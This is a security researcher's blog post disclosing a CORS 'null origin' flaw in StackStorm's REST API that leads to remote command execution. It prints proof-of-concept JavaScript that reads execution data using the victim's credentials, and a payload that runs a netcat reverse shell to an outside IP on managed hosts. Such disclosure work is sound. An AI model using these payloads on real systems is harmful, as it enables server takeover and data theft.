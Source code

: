 ```yaml
---
layout: post
title: StackStorm - From Originull to RCE
---
```


<div style="text-align:center"><img src="https://www.thefastmode.com/media/k2/items/src/3cc8012eca57577e33709ae3cf2556ae.jpg"></div><br>StackStorm (aka "IFTTT for Ops") is event-driven automation for auto-remediation, security responses, troubleshooting, deployments, and more.
In this blogpost I will describe how can you cause RCE on targeted servers which only requires an authenticated user browse to malicious webpage.


So first, lets understand what is StackStorm, StackStorm is a really popular (3K stars on github) devops event-driven automation tool, allows devops to configure actions, workflows, and scheduled tasks, in order to perform some operations on large-scale servers.

Actions will run on behalf remote servers managed by StackStorm agent. Those actions can be anything, from HTTP request to an arbitrary command as you can see in the following image:
<div style="text-align:center"><img src="https://lh6.googleusercontent.com/cHgBmUQavZ2tfo98YZzGbZtSqCOVZJrsSXiVrbFE3H9PobrckApM4fRx_ce2R1yFX59Dz5bpUlIAQg-Zh0JDQKZuBI4SqleX8uCczQEi"></div>

Due to the fact that StackStorm agent run those actions on remote servers it will be “blessed” by quite high-privileges. This fact really motivated me to find flaw in it.

I was managed to see this request:
<div style="text-align:center"><img src="https://lh3.googleusercontent.com/gnw0KB9Ii4BH-nR2zIKzHAVEMnJYy68bjO_3rD6uHW_RbZaJACFUQ8m-b_i_pyb3w9p9Hq1uw14VySYCPr31KjE6jazfkf2TzaSVSEa7BrLLWw3zPqvTn9Pzf4_VhGPVh_pMZQBG"></div>

As we can see the “Access-Control-Allow-Origin” header returning in each request to StackStorm REST API, even when request not includes the origin header, quite weird but anyway might make sense…
Then I started to send a malformed Origin header and I realized that the server cant handle it properly, and returning the header “Access-Control-Allow-Origin: null”:
<div style="text-align:center"><img src="https://lh5.googleusercontent.com/iROyOQlB1lRDbcvCOis4P8PkcJb3kcSG8PJCpyiAHjubxJ7tG9JIVu-nS9Vtd3Wo6bZoiQubqBTOP4FS5F7qWveiDXUqvtDkG_2uq-vNyPSITx-nQtB9GdwLbaO-iQtIQfWUYB2D"></div>


Right away I knew that there is something interstring in here, and reminded the [Originull attack discovered by Ysrael Gurt](https://bugsec.com/wp-content/uploads/2016/12/Blog-Post-BugSec-Cynet-Facebook-Originull.pdf)
This is the first time I encountered that on the wild, I was really curious about why is this happening in first place?
why servers returning “Access-Control-Allow-Origin: null” header at all? they can just not return this header at all.
I managed to read a bit the [The Web Origin Concept RFC](https://tools.ietf.org/html/rfc6454) and find page 11 quite interesting related to Originull:
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/MSAecvSRa9BHTCV32M526_aisMdNz2ApU_e5xoZRbf7bv9vkXQTP0rLJlRi3wzEIMg8ZQKj142Mk-v2i1wNAkI_t4hm4xDMxo9rRpLXG8qHjXQJrrgxKFzQF_Lz_tmdV8ym85pUs"></div>


To simplify, the RFC defines, in case the server got a malformed origin which cannot be serialized, set the string “null” as the Origin header.
Now we can understand what is the root cause for all this, that's makes me laugh a bit because the RFC defines one thing, but [Mozilla best practices](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin) saying to avoid using it (make sense anyway).

After we understand why is this happening, let’s understand how can we exploit this flaw?
So now the origin “null” have the a “full privileges” to StackStorm REST API, which means, that this origin can fetch requests and read responses on behalf any user that will browse to this “null” origin.
How can I get null origin? Via data/file scheme as shown in the PDF mentioned above.
You can run this in your browse and see that you get empty(document.domain=null) alert message:
```javascript
data:text/html;,<script>alert(document.domain)</script>
```
At the PDF document, they used a meta tag in order to redirect the user to browse this malicious data URL:
```bash
<meta http-equiv="refresh" content="0;URL='data:text/html;,<script>alert(document.domain)</script>'" />  
```

I tried to use the same technique in order have a popup message reading data from StackStorm REST API but I got this message:
<div style="text-align:center"><img src="https://lh6.googleusercontent.com/uxhmHpvw8aMpa9kaVcD8QFj9a6wDgaRXO3VAQRhuvM0ZfEcH1LCEBfSUvxmW0dD7u0_YPYzc5-Yl4jEAt0vKRiNWQQfpkIlszclJBDnHVyeME2kD4E3X4y7s3Rd8T55OYoLucEF7"></div>


Crap! I realized that chrome and firefox disabled any data scheme redirections.
I was needed to get another creative way to redirect users to execute this malicious script on null origin context.
Tried to manipulate redirections responses with data URL schemes on Location header but it failed.
Finally I used “javascript:” scheme, which allows me to execute JS code which runs on the same context as data and file schemes.
So by the javascript scheme I was managed to make a full working PoC as shown below:
```html
<script>	document.location="javascript:fetch('https://172.18.0.6/api/v1/executions',{credentials: 'include'}).then((res)=>{console.log(res.json().then((a) => {console.log(a)}));})"
</script>
```
We can see the REST API response object printed to the console and can be leak to anywhere:
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/e5tZ0o6HXlE4PCu9Ru_EaXQh_7ThnP5BEmGioidAKZqxS6pgW391Ykfd8gt022rE3aNAZeWhMVqgyFlDFg7WldynKB1Ys7R5aNS5qv0G0SqIdKTkzrg4O4JQA9Gx3Yrjx4KaadPp"></div>

So actually, we have to ability to read/update/create actions and workflows, get internal IPs and execute command on each machine which is accessible by StackStorm agent.

It is possible to perform code execution via core.remote action:
```html
<script>
		let jsonBody = {"action":"core.remote","parameters":{"cmd":"nc 192.168.100.113 4444 -e /bin/bash","hosts":"10.0.0.10"},"context":{"trace_context":{}}}
		document.location="javascript:fetch('https://172.18.0.6/api/v1/executions',{credentials: 'include', method: 'post', body: JSON.stringify(jsonBody),headers: {'Content-Type': 'application/json'}}).then((res)=>{console.log(res.json().then((a) => {console.log(a)}));})"
</script>

```
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/N_RVrqFZcfJcZ3AK9DyZnLkAzbMTtdk9A6MTEsiuMIHfik4RADjEZAH3Yt4gB6xIRU6E5gDOmwuXkuK-m4x0kybVeKrrQ6DG23mvF5fJyT7DGFvSNBLidEBsuheYxnmkA8LR2LZ5"></div>

So I was sure I done, but then I tried to run it from a web server, and got the following error message:
<div style="text-align:center"><img src="https://lh5.googleusercontent.com/wyjtRTeOMqk6AtCZ8AWIR8uPXet9us9iRP7S2TeXp1ACU9AGQ_Z2hOlM3r9yFec8tbhgMLWkep9QcNV3JcHrcKnvKMwqHh2CSOmHzlu8V3tY9sSD7-WO8FOhIwQQYgAoODFPDWrY"></div>

I was like, not again!!! The browser actually saves the origin context even if we use javascript, so it was only exploitable via sending a file to the user and make him open it.
I was frustrated and motivated at the same time, and got help from my talented colleague Chen Gur Arie, we managed to bypass this as well, and we got Origin null context from a page loaded in a domain (btw, Flash can do that as well)
I don't want to elaborate about how we did it, because we still trying to figure out what are the implications of it.

Now all an attacker needs is to send a malicious link to a victim which is authenticated to StackStorm Web UI, thus, allow the attacker take over any server accessible by StackStorm agent as you can see at (the PoC video)[https://www.youtube.com/watch?v=KnvWCg2Q7k4]
